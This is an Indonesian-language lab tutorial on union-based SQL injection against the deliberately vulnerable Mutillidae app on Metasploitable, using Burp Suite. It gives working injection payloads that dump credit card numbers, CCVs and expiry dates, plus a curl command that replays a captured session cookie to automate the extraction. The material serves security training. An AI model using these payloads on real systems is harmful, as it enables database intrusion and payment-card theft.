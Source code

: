 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
```


* **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

* **Step 4** : Buka burpsuite, dengan cara pilih Applications --&gt; Web Application Analysis --&gt; burpsuite  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)

* **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next   
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)

* **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)

* **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --&gt; Options  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)

* **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --&gt; Intercept.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)

### \# SQL Injection \(Union Example \#1\)

* **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Masukkan syntax sql `' union select null --` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)

* **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

* **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null --`.

* **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null --` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

* **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null --` pada textbox name. Dan kemudian tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

* **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

* **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)

* **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.

  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

* **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit\_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)

* **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration.   
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)

### \# Curl Action

* **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection \(Union Example \#1\), kemudian catat/copas raw header request.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

* **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack\_cookies.txt  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)

* **Step 3** : Jalankan perintah   
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`   
  dan lihat hasilnya. Hasilnya adalah data hasil sql injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)

### \# Perl Parser

* **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY\_TOOLS/MUTILLIDAE/MUTILLIDAE\_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
* **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
* **Step 3** : Jalankan perintah 
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
* **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
* **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)



